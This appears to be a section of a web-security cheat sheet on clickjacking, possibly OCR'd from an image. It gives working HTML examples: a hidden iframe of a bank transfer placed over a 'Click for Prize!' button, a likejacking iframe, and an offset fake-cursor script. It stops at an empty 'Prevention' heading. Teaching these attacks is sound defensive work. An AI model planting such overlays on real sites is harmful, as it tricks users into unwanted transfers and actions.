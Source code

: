 ## 🖱️ Clickjacking

### Attack Examples

**Basic Clickjacking:**
```html
<style>
    iframe {
        position: absolute;
        width: 500px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    button {
        position: absolute;
        top: 270px;
        left: 180px;
        z-index: 1;
    }
</style>

<button>Click for Prize!</button>
<iframe src="http://bank.com/transfer?to=attacker&amount=1000"></iframe>
```

**Likejacking:**
```html
<!-- Trick users into liking a Facebook page -->
<iframe src="https://www.facebook.com/plugins/like.php?href=http://attacker.com"></iframe>
```

**Cursorjacking:**
```html
<style>
    * { cursor: none; }
    #fake-cursor {
        position: absolute;
        pointer-events: none;
    }
</style>
<img id="fake-cursor" src="cursor.png">
<script>
    // Move fake cursor with offset
    document.onmousemove = function(e) {
        document.getElementById('fake-cursor').style.left = (e.pageX - 50) + 'px';
        document.getElementById('fake-cursor').style.top = (e.pageY - 50) + 'px';
    }
</script>
```

### Prevention
